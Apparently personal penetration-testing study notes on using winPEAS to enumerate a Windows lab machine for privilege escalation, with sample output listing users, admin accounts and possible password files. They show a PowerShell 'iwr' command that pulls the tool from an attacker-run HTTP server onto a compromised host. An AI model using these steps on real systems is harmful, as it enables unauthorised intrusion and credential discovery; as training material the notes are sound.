 
# Automated Enumeration
In actual pen-tests, we should automated tools for enumeration since we are time-boxed. A good choice for enumerating Windows, especially as it relates to privesc, is [_winPEAS_](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS).
## WinPEAS
To use winPEAS, we first need to get the binary onto our target box.
### Infiltrating WinPEAS
First, we need to install the [`peass`](https://www.kali.org/tools/peass-ng/)package (on our Kali machine). Then we can download the 64-bit binary for WinPEAS onto our attacking machine, then we can use [python](../../../coding/languages/python/python.md) to serve it via an [HTTP](../../../www/HTTP.md) server:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Once that's up and listening for connections, we can user [powershell](../../../coding/languages/powershell.md) to access it from the target box we compromised. After starting a PS session, we can use `iwr` with the `-uri` flag set to the address of our python web server. `iwr` is a cmdlet:
```powershell
C:\Users\dave> powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\dave> iwr -uri http://192.168.48.3/winPEASx64.exe -Outfile winPEAS.exe
iwr -uri http://192.168.48.3/winPEASx64.exe -Outfile winPEAS.exe
```
If everything works, this will send an HTTP `GET` request to our python server for the winPEAS binary and then download it into our working directory.
### Running WinPEAS
Once we run winPEAS it will take a few minutes to finish since it's doing all of the enumeration for us. The output will be color-coded:
- Red: special privilege over an object or a misconfiguration
- Green: protection is enabled
- Cyan: active users
- Blue: disabled users
- Light Yellow: links

To run winPEAS, the command is `.\winPEAS.exe`. Here is some output for the example client `CLIENTWK220` like we've been using throughout this section (see [sensitive-files](sensitive-files.md), [enumeration](enumeration.md), and [powershell-logging](powershell-logging.md)). 
#### System Info
The first part of the output includes basic information about the system:
```powershell
...
����������͹ Basic System Information
� Check if the Windows versions is vulnerable to some known exploit https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#kernel-exploits    OS Name: Microsoft Windows 11 Pro
    OS Version: 10.0.22621 N/A Build 22621
    System Type: x64-based PC
    Hostname: clientwk220
    ProductName: Windows 10 Pro
    EditionID: Professional
    ReleaseId: 2009
    BuildBranch: ni_release
    CurrentMajorVersionNumber: 10
    CurrentVersion: 6.3
    Architecture: AMD64
    ProcessorCount: 2
    SystemLang: en-US
    KeyboardLang: English (United States)
    TimeZone: (UTC-08:00) Pacific Time (US & Canada)
    IsVirtualMachine: True
    Current Time: 9/2/2024 11:03:33 PM
    HighIntegrity: False
    PartOfDomain: False
    Hotfixes: 
...
```
Note that winPEAS has the OS version as Windows 10 Pro instead of Windows 11 Pro like we confirmed earlier. This is a good example of why *you should never fully trust output from an automated tool*.
#### Security Protections
The next section of output includes security protections in place like [NTLM](../../../networking/protocols/NTLM.md) settings. Here we can see info related to [PowerShell Transcription](powershell-logging.md#PowerShell%20Transcription) files:
```powershell
...    
����������͹ PS default transcripts history
� Read the PS history inside these files (if any)
...
```
Note that again, winPEAS got it wrong *since we know there is a transcript file* in `C:\Users\Public`
#### Users & Groups
The next section pertains to users on the system including the groups they're members of:
```powershell
����������͹ Users
...    
Current user: dave
Current groups: Domain Users, Everyone, helpdesk, Builtin\Remote Desktop Users, Users, Batch, Console Logon, Authenticated Users, This Organization, Local account, Local, NTLM Authentication

   CLIENTWK220\Administrator(Disabled): Built-in account for administering the computer/domain
        |->Groups: Administrators
        |->Password: CanChange-NotExpi-Req

    CLIENTWK220\BackupAdmin
        |->Groups: BackupUsers,Administrators,Users
        |->Password: CanChange-NotExpi-Req

    CLIENTWK220\dave: dave
        |->Groups: helpdesk,Remote Desktop Users,Users
        |->Password: CanChange-NotExpi-Req

    CLIENTWK220\daveadmin
        |->Groups: adminteam,Administrators,Remote Management Users,Users
        |->Password: CanChange-NotExpi-Req
...

    CLIENTWK220\steve
        |->Groups: helpdesk,Remote Desktop Users,Remote Management Users,Users
        |->Password: CanChange-NotExpi-Req
...
```
#### Processes, Services, Tasks, Network, Applications
The next section includes info on currently running processes, scheduled tasks, services, network information, and applications.
#### Password Files
The last section includes any discovered password and password-related files found in user home directories:
```powershell
...    
����������͹ Looking for possible password files in users homes
�  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#credentials-inside-files
    C:\Users\All Users\Microsoft\UEV\InboxTemplates\RoamingCredentialSettings.xml
    C:\Users\dave\AppData\Local\Packages\MicrosoftWindows.Client.WebExperience_cw5n1h2txyewy\LocalState\EBWebView\ZxcvbnData\3.0.0.0\passwords.txt
    C:\Users\dave\AppData\Local\Packages\MicrosoftTeams_8wekyb3d8bbwe\LocalCache\Microsoft\MSTeams\EBWebView\ZxcvbnData\3.0.0.0\passwords.txt
...
```
Again, the output doesn't include `asdf.txt` which we found in `dave`'s Desktop folder before.


> [!Resources]
> - [_winPEAS_](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
> - [**peass**](https://www.kali.org/tools/peass-ng/) package
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.